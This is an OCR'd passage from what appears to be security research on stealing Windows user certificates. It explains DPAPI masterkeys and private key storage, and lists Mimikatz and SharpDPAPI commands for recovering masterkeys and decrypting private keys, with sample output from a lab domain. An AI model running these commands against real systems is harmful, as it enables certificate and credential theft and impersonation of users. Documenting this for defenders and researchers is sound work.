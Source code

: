 - The DPAPI masterkey needed to decrypt the private key protected blob. This defines the user/machine masterkey (identified by a GUID) needed to decrypt the private key.
- . The UniqueName of the private key, also known as the key container name. Windows stores certificates in some type of raw format (that we were not able to determine) with metadata prefixed to the actual data of the certificate. Either this UniqueName or the private key filename is embedded in this metadata and is likely the best way to link private keys to their associated certificates. As we do not have this method built out, the other "hackish" way is to compare the decrypted private key components to the public key components87.

To obtain a certificate and its associated private key, one needs to:

<sup>87</sup> 

- 1. Identify which certificate one wants to steal from the user's certificate store and extract the key store name.
- 2. Find the DPAPI masterkey needed to decrypt the associated private key.
- 3. Obtain the plaintext DPAPI masterkey and use it to decrypt the private key.

Benjamin Delpy has documented this process with EFS certificates88, but the same process applies to other certificates.

There are multiple methods to get the plaintext DPAPI masterkey. A domain's DPAPI backup key 89 can decrypt any domain user's masterkey file. Mimikatz's dpapi::masterkey /in:"C:\PATH\TO\KEY" /rpc command can retrieve an account's masterkeyif Mimikatz is run in the target user's security context. If a user's password is known, one can decrypt masterkey file using SharpDPAPI's masterkeys command or Mimikatz's dpapi::masterkey /in:"C:\PATH\TO\KEY" /sid:accountSid /password:PASScommand.

To simplify masterkey file and private key file decryption, SharpDPAPI's certificates command can be used with the /pvk, /mkfile, /password, or {GUID}:KEY arguments to decrypt the private keys and associated certificates, outputting a . pem text file:

hub.com/GhostPack/SharnDPAPI#

| C:\Tools>SharpDPAPI.exe certificates /mkfile:C:\temp\mkeys.txt |
| --- |
| (-)  -1 (- i- i- i- i- i-   }  - / ^  - / |
| v1.11.2 |
| [*] Action: Certificate Triage |
| Folder : C:\Users\harmj0y\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-937929760-3187473010-88948926-1104 |
| File : 065daebb32bc3866a379428730ffd139 6c712ef3-1467-4f96-bb5c-6737ba66cfb0 |
| Provider GUID : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb} |
| Master Key GUID : {bda6fecf-78b3-43c8-a8c1-ddae11db1099} |
| Description : CryptoAPI Private Key |
| algCrypt : CALG 3DES (keyLen 192) |
| algHash : CALG SHA (32772) |
| Salt : a92263a893217ed7cc5f2adcbf2b2f24 |
| HMAC : 5d509fb89aa0a484270efae84725f63f |
| Unique Name : te-UserMod-19125d35-bda4-4bd3-975b-ba7c7243c229 |
| Thumbprint : 9F1CD4264820FFB35931A9F4783A06E4B57FD7E1 |
| : CN=theshire-DC-CA, DC=theshire, DC=local Issuer |
| Subject : CN=cody, CN=Users, DC=theshire, DC=local |
| Valid Date : 4/14/2021 8:37:15 PM |
| Expiry Date : 4/14/2022 8:37:15 PM |
| Enhanced Key Usages: |